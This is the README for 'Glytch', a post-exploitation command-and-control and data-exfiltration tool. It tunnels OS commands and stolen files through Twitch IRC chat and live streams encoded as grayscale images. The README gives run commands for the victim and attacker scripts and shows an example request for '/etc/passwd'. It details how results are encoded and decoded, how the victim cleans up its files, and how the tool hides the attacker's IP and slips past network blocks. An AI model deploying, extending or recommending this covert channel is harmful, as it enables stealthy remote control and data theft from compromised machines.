


# Glytch Command-and-Control (C2) Tool

<p align="center">  </p>

# A FAFO project: Command execution and data exfiltration of any kind through live streaming platforms

Glytch is a post-exploitation tool serving as a Command-and-Control (C2) & Data Exfiltration service. 

It creates a covert channel through Twitch live streaming platform and lets attacker to execute an OS command or exfiltrate a data of any kind from the target computer (does not matter whether the computers are connected over a LAN or WAN).

Multi-platform (e.g. YouTube, Instagram) support is on our agenda and we are working on some kinks on such platforms' implementation challenges.

## Why?

As a penetration tester, it can be challenging to conceal your real IP address during the post-exploitation phase, especially if you're trying to cover your tracks and potentially exfiltrate data. Your current environment may block unknown IP addresses, requiring a legitimate and trustworthy communication channel. 

## Disclaimer

Use at your own discretion.

While this tool alone will not cause any damage, attacking systems/networks without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. We assume no liability and we are not responsible for any misuse or damage caused by this.

## Features

Currently, **"GlytchC2"** offers two functionalities:
- Command execution on remote host
- Retrieve file from remote host

## Proof-of-Concepts (PoCs) & How it works

### Proof-of-Concepts (PoCs)

- As this tool can be used on post-exploitation, you need a working shell on the target environment and have necessary permissions/privileges.
- When you execute ``victim.py`` on the target host, host gets connected to the IRC chat of given channel by using provided "oauth" key in the ``.env`` file. You can execute ``victim.py`` with following command:

```
# cd victim
# python3 victim.py --channel <CHANNEL_NAME> --streamkey <RTMP_KEY>
```
<p align="center"> Code Block - Running "victim.py" </p>

- Then, victim waits for receiving a request containing either an OS command or a file with it's path:

<p align="center">  </p>
<p align="center"> Figure - Running "victim.py" </p>

- After victim side is up and waiting for a request, attacker needs to connect corresponding channel's IRC chat:

```
# cd attacker
# python3 attacker.py --channel <CHANNEL_NAME>
```
<p align="center"> Code Block - Running "attacker.py" </p>

<p align="center">  </p>
<p align="center"> Figure - Running "attacker.py" </p>

- Then, attacker either can send an OS command e.g. ``whoami`` or request a file download e.g. ``file:/etc/passwd``

<p align="center">  </p>
<p align="center"> Figure - Running "whoami" on Remote Host </p>

- **IMPORTANT:** Note that the stream link may be fetched with a delay, therefore the program will try until obtain a valid stream link.
- We also have inserted a blank frame in the first 10 seconds of the video to prevent missing the frames.
- After the victim receives a command, it starts a stream to output the result of executed command (whether an OS command or a file request):

<p align="center">  </p>
<p align="center"> Figure - Victim Starts Streaming (Result of "whoami") </p>

- In here, attacker obtains the stream link and begins recording the stream on their end.

<p align="center">  </p>
<p align="center"> Figure - Fetching Stream Link (Attacker) </p>

<p align="center">  </p>
<p align="center"> Figure - Recording Stream (Attacker) </p>

- After attacker finishes recording the stream, the program will remove duplicate frames and keep the originals in order to pass them to the decoder:

<p align="center">  </p>
<p align="center"> Figure - Removing Duplicate Frames </p>

<p align="center">  </p>
<p align="center"> Figure - Decoding Recorded Frame(s) </p>

 - Decoded frame content is below:

<p align="center">  </p>
<p align="center"> Figure - Decoded Frame Content (Result of "whoami" OS command) </p>

- We can also request a file with ``file:`` prefix, e.g. ``systeminformer-3.2.25011-release-setup.exe``:

<p align="center">  </p>
<p align="center"> Figure - "systeminformer-..." File Located In Victim </p>

- Sending file request from attacker:

<p align="center">  </p>
<p align="center"> Figure - Requesting Target File w/File Path (Attacker) </p>

- Victim starts streaming (Twitch screen):
  
<p align="center">  </p>
<p align="center"> Figure - Victim Starts Twitch Stream </p>

- When the stream finishes, victim cleans up generated files:

<p align="center">  </p>
<p align="center"> Figure - Stream Ending & Cleanup (Victim) </p>

- Finally, transferred file (note that the SHA256 hash is same with victim's local file; indicating that the file has been transferred with 100% integrity):
<p align="center">  </p>
<p align="center"> Figure - Transferred File (Attacker) </p>

### How it works?

#### Encoder Script (encoder.py)**

#### Purpose

The encoder reads an input file (either raw binary or a hex string), splits it into fragments (if necessary), and converts each fragment into a PNG image. In that image, both metadata (a header) and the payload are “drawn” by mapping small units of data (nibbles) into corresponding 8‑bit grayscale pixel values. The reason for choosing grayscale is to avoid corruption caused by chroma subsampling. Each pixel is encoded as six repeating nibbles (4-bits/1 HEX char). Therefore, every byte is encoded into 2 pixels, minimum. The header includes essential information (e.g. payload length, grid dimensions, fragment index/total, border thickness, expected overall dimensions, and the file name).

#### Key Concepts & Methods

**Constants and Header Structure**

Constants: 
- ``DEFAULT_BORDER``, ``HEADER_HEIGHT``, ``MARKER_COLOR``, and ``MIN_CELL`` are defined to set dimensions and ensure the markers and header are drawn with reliable parameters.

Header Structure:
- The header is 279 bytes long (21 fixed bytes plus 258 extra bytes for file name—2 for the length and 256 for the actual name).

It contains:
- 4 bytes: Payload length (number of data bytes for this fragment).
- 2 bytes: Number of grid columns for the payload.
- 2 bytes: Number of grid rows for the payload.
- 4 bytes: Fragment index (useful when data is split across multiple images).
- 4 bytes: Total fragments.
- 1 byte: Border thickness (dummy field, ensuring that marker values don’t conflict with data values).
- 2 bytes: Expected overall image width.
- 2 bytes: Expected overall image height.
- 2 bytes: File name length.
- 256 bytes: File name (UTF‑8 encoded, padded or truncated to fit).

**Mapping Data to Grayscale**

Nibble Mapping:
- Each nibble (4 bits, with a value 0–15) is mapped to an 8‑bit grayscale value by multiplying by 17 (i.e. 0→0, 1→17, …, 15→255). This uniform spacing prevents ambiguities during decoding.

Header Conversion:
- The header bytes are split into nibbles. Each nibble is then drawn into a “cell” in the header region of the image. The header is placed at the top of the safe data region.

Payload Conversion:
- The payload (fragment data) is similarly converted: every byte is split into two nibbles and then placed into the grid below the header.

**Image Construction**

Outer Border and Markers:
- A new grayscale image is created. The function draw_nested_frames() draws “photo-frame” style borders in the outer border area using a fixed grayscale value (based on the nibble value
- The function draw_marker_lines() draws a one‑pixel thick marker rim along the safe area boundaries. These markers help the decoder to locate the actual data region.

Grid Determination:
- The safe area (inside the border) is divided into a header region (of fixed height) and a payload grid. The grid’s dimensions (columns and rows) are calculated based on the safe region size and a minimum cell size.

Fragmentation Logic:
- The maximum payload per image is computed from the number of available grid cells (each cell stores one nibble; two nibbles form one byte).
- If the file’s data exceeds the capacity of one image, the file is split into fragments, and each fragment is encoded separately.

Saving the Output:
- Finally, the constructed image is saved as a PNG file. Informational messages are printed to detail the image dimensions, safe region, grid configuration, and payload size.

#

#### Decoder Script (decoder.py)

#### Purpose

The decoder takes one or more PNG images (which are fragments produced by the encoder) and reconstructs the original file. It does so by locating the safe (data) region, reading the header to learn the grid and payload configuration, and then reading the payload grid (by converting grayscale values back into nibbles, and then reassembling bytes).

**Key Concepts & Methods**

Matching Constants:

- The decoder uses exactly the same constants as the encoder (for header size, marker color, and so on). This is crucial because the header and payload layout must match exactly for the data to be recovered correctly.

Marker Detection:
``find_marker_edges()``: 
- Scans the image near its edges (within a “search window”) to detect marker lines.
- It checks rows and columns to see if a high percentage of pixels match the marker color ``MARKER_COLOR``, then returns the boundaries (top, bottom, left, right) of the safe region.
- If marker detection fails, a fallback using expected overall dimensions is used.

Header Extraction:
``extract_header()``:
- Reads the header region from the safe area by dividing the header region into cells. For each cell, the central pixel’s grayscale value is converted back into a nibble (by dividing by 17).
- Nibbles are combined (two at a time) to reconstruct the original header bytes.
- The header is parsed to extract metadata (payload length, grid dimensions, fragment index/total, border thickness, expected overall dimensions, and the file name).

Payload Decoding:
- The remainder of the safe region (below the header) is divided into grid cells.
- For each cell, the center pixel’s value is converted back into a nibble. These nibbles are then reassembled into bytes (two nibbles per byte) to reconstruct the payload.

Reassembly of Fragments:
- If multiple PNG fragments exist, the decoder collects them (verifying their headers) and concatenates their payload bytes in the proper order to rebuild the complete file.
- The file name is recovered from the header and used when saving the reconstructed data.

#

#### Overall Logic

Why Use a Grid and Nibble Conversion?
- By mapping 4‑bit nibbles to fixed 8‑bit grayscale values (multiples of 17), the system ensures that each cell in the image represents a specific, unambiguous piece of data. This coarse encoding is robust against small variations, making it easier to decode even if the image is resized or slightly distorted.

Header Inclusion:
- The header carries all metadata required for decoding—this means the decoder knows exactly how to interpret the grid (number of columns, rows, fragment indices, etc.) and can verify that the correct file is being reassembled.

Marker Lines:
- The use of marker lines (drawn along the safe region boundary) gives the decoder a reliable reference to the boundaries of the data region. This is important because the image might have extra borders or frames, and the decoder must know where the actual data begins and ends.

Fragmentation:
- If the input file is too large to fit in one image (given the grid cell size), it is split into multiple fragments. Each fragment’s header contains its index and the total number of fragments. This way, the decoder can reconstruct the file by concatenating the payloads in order.

#

## Main Execution Flow 
<p align="center">  </p>
<p align="center"> Figure - Main Execution Flow </p>

## What's next? & Current Roadmap for this project

- Youtube, Instagram and other widely used major streaming platforms support
- Utilization of audio to increase data transfer rate 
- More functionalities - e.g. bi-directional data transfer

## Credit

- [Twitch Chat IRC - Xenova GitHub](https://github.com/xenova/twitch-chat-irc/)
- Special thanks to: [Contributor: Istemihan Bulut](https://github.com/istemihanbulut)
